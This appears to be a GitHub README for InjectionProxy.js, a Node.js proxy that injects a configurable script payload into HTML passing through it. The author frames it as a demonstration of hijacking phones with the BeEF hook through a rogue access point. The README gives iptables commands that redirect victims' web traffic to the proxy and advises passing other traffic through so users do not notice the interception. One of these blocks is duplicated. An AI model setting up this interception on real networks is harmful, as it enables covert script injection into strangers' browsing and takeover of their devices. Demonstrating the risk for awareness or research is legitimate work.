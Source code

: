 # InjectionProxy.js
A simple node.js proxy capable of injecting code into html transmissions

## Installation
To install the required modules run the following command:

```
npm install colors dateformat iconv mootools 
```

## What it does
__injectionproxy.js__ is a simple multithreaded HTTP proxy. It will automatically decode all transmissions with content-type html and inject a configurable payload either before or after a search pattern. It can handle gzip and inflate/deflate compressed content.

I did this quick hack to demonstrate how easy control over a mobile phone can be gained by injecting the [beef](http://beefproject.com/) hook.js into the html the phone is downloading through a rogue access point running this proxy.


## Configuring the proxy
By default the proxy will look for a file called settings.js. You can have multiple settings files. To run the proxy with a different settings file append the name of it to the commandline:
```
node injectionproxy.js mysettings.js
```

This is a very basic settings example:
```
module.exports = {
    "timeFormat"        : "HH:MM:ss",
    "preventCaching"    : true,
    "injectionLocation"	: "</body>",
    "injectBefore"	    : true,
    "payload"		    : "<script>alert('Hello!');</script>\n",
    "port"		        : 3128,
    "debug"		        : true
}
```
- Timeformat: obviously the format string for the log
- preventCaching: This will strip all caching related headers to avoid the server from sending us a 304 (Content not modified) reply
- injectionLocation: This is the place where the payload will be injected
- injectBefore: If set to true, the payload will be before the injectionLocation pattern. Otherwise it will be after the pattern
- payload: The payload which will be injected
- port: Listener Port of the proxy server
- debug: if true, then every single request will yield additional console log lines for incoming and outgoing traffic

### Setting up an HTTP Proxy with iptables and injectionproxy.js

Assuming you are setting up a router with iptables, eth0 is your uplink device and wlan0 the device users connect to then the following commands will be sufficient to set up a simple proxy where all traffic to any site on port 80 will be redirected to the proxy listener. The proxy will then figure out the target host from the HTTP request header and send the reply to the client:

```
 iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
 iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j DNAT --to-destination 127.0.0.1:3128
```

If you want to fly under the radar you may also want to pass thru all other traffic so the user doesn't realize his requests are being filtered:

```
iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
```

If you want to fly under the radar you may also want to pass thru all other traffic so the user doesn't realize his requests are being filtered:

```
iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
```

You will very likely have to enable routing from to the loopback device in the kernel. To do this issue this command:
 
```
sysctl -w net.ipv4.conf.wlan0.route_localnet=1
```